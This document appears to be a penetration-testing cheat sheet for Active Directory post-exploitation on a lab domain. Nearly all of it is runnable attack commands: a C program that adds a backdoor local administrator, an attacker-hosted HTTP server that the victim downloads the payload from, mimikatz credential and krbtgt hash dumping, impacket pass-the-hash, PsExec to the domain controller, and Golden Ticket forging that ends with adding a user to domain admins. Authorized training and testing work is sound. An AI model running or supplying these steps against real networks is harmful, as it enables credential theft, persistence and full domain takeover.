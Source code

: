# 🌌 Active Directory Post Exploitation

## Active Directory Post Exploitation

### Access Users Remotely

#### Xfreerdp

```
xfreerdp /u:mike /p:P@ssword /d:homeserver.local /v:192.168.56.13 /w:1920 /h:1080 /fonts /smart-sizing
```

### Gathering Info

#### Cmd

```
# Get current user's detail
whoami

# View Groups
whoami /groups

# View all users in the domain
net user
```

### Privilege Escalation

#### Powershell

**View Running Services**

```
 Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName | Where-Object {$_.State -like 'Running'}

```

**View Start Mode of Services**

```
Get-CimInstance -ClassName Win32_Service -Filter "Name='<service name>'" | Select-Object StartMode
```

**Check Permissions using ICACLS**

```
icacls "File Name/Path"
```

#### C Program

**Adduser.c**

```
#include<stdio.h>
#include<stdlib.h>

int main()
{

        int i;
        
        i = system("net user peter P@ssword /add");
        i = system("net localgroup administrators peter /add");

        return 0;

}

```

**Compile**

```
x86_64-w64-mingw32-gcc exploit.c -o adduser.exe

```

#### Share the Exe

```
# Attacker Machine
python3 -m http.server

# Victim Machine
iwr -Uri http://10.10.10.10/<file.exe> -OutFile <file.exe>
```

### Stealing Credentials

#### Mimikatz

```
# Start mimikatz
.\mimikatz.exe

# Dump hahses
privilege::debug

sekurlsa::logonpasswords
```

#### Impacket

**Wmiexec**

```
impacket-wmiexec -hashes :<NT Hash> domain/user@<IP>

# Vew powershell history
cd C:\users\jack\appdata\roaming\microsoft\microsoft\windows\powershell\psreadline

```

**PsExec**

```
# Accessing the domain controller
.\PSExec64.exe \\dc01 cmd.exe
```

### Forging Golden Tickets

#### Get krbtgt Hash and Domain SID

```
.\mimikatz.exe

privilege::debug

# Dump Hashes
lsadump::lsa /patch

```

#### Create Golden Ticket

```
.\mimiktaz.exe

kerberos::purge

# Creating Ticket

kerberos::golden /user:<any user> /domain:homeserver.local /sid:<domain sid> /krbtgt:<krbtgt hash> /ticket:homeserver_golden

```

#### Using Golden Ticket

**Powershell**

```
.\mimikatz.exe

kerberos::ptt homeserver_golden

misc::cmd

```

**PsExec**

```
PsExec.exe \\dc01 cmd.exe

# Add a user to domain
net user mike P@ssword /add /domain 

# Add a user to domain group
net group "domain admins" mike /add /domain

```

***

## REFERENCES

* https://www.mankier.com/1/xfreerdp
* https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls
* https://en.wikipedia.org/wiki/Local\_Security\_Authority\_Subsystem\_Service
* https://www.netwrix.com/how\_golden\_ticket\_attack\_works.html
* https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/forge\_ticket.html
* https://www.youtube.com/watch?v=f8jGhLwCa28\&pp=ygUgd2luZG93cyBwZW50ZXN0IGFjdGl2ZSBkaXJlY3Rvcnk%3D
* https://www.hackingarticles.in/understanding-guide-mimikatz/
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket
